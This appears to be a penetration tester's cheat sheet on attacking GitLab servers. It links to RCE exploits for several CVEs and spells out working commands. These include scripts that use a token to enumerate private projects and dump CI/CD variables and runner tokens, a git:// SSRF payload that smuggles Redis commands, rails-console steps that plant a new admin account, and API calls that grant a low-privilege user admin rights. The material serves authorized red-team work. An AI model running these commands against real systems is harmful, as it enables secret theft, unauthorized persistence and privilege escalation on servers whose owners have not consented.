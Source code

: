 # GitLab

- [https://devcraft.io/assets/hacktivitycon-slides.pdf](https://devcraft.io/assets/hacktivitycon-slides.pdf)
- [https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)




## Search for Secrets

- [https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/](https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/)
- [https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/](https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/)

Search for CI/CD variables and runner tokens:

```bash
TOKEN=`cat token`
GITLAB=gitlab.megacorp.local
API="https://$GITLAB/api/v4"

curl -sH "Authorization: Bearer $TOKEN" "$API/user" | jq

# 1. bash get_project_ids.sh <PAGE_NUMBER> | tee -a projects
curl -sH "Authorization: Bearer $TOKEN" "$API/groups/<GROUP_NAME_OR_ID>/projects/?include_subgroups=true&visibility=private&per_page=100&page=$1" | jq -r '.[].id'

# 2. bash get_secrets.sh
for id in `cat projects`; do
    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq '.path'

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id/variables" | jq

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq .runners_token | jq
done
```

Search for credential leaks with [gitleaks](https://github.com/zricethezav/gitleaks):

```
$ eget -qs linux/amd64 "zricethezav/gitleaks" --to gitleaks
$ gitleaks detect -s . -v | jq '.Match + " :: " + .File'
```




## GitLab Runners Abuse

- [https://frichetten.com/blog/abusing-gitlab-runners/](https://frichetten.com/blog/abusing-gitlab-runners/)
- [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)




## SSRF > Redis > RCE (CE/EE)

**CVE-2018-19571, CVE-2018-19585**

- [https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
- [https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)
- [https://www.exploit-db.com/exploits/49334](https://www.exploit-db.com/exploits/49334)

Also possible to use this payload (instead of IPv6) to bypass filter checks for localhost, but works only with `git://` scheme:

```
git://127.0.0.1:6379/%0a<REDIS_COMMANDS>
```




## Path Traversal > LFI > RCE (CE/EE)

**CVE-2020-10977**

- [https://xakep.ru/2020/05/26/gitlab-exploit/](https://xakep.ru/2020/05/26/gitlab-exploit/)
- [https://www.exploit-db.com/exploits/49076](https://www.exploit-db.com/exploits/49076)




## Path Traversal > File Write > RCE (EE)

**CVE-2019-19088**

- [https://gitlab.com/gitlab-org/gitlab/-/issues/36029](https://gitlab.com/gitlab-org/gitlab/-/issues/36029)




## gitlab-rails

Add new admin user from console:

```
$ sudo gitlab-rails console
irb(main):001:0 > ActiveRecord::Base.logger = Logger.new($stdout)
irb(main):002:0 > User.find(1)
=> #<User id:1 @root>
irb(main):003:0 > user = User.create(:username => 'snovvcrash', :password => 'Passw0rd!', :password_confirmation => 'Passw0rd!', :admin => true, :name => 'snovvcrash', :email => 'snovvcrash@megacorp.local')
irb(main):004:0 > user.save!
irb(main):005:0 > user.confirmation_token
=> "ZVrM4KsyEdSoTJvo8kx_"
```

Then activate the account by navigating to `https://gitlab.megacorp.local/users/confirmation?confirmation_token=ZVrM4KsyEdSoTJvo8kx_`.

Grant a low-priv user admin's privileges via API:

```bash
# Check token priveleges
$ curl -sX GET -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/user" | jq '.is_admin'
# Grant low-priv user admin's privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=true" | jq '.is_admin'
# Revert low-priv user's original privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=false" | jq '.is_admin'
```
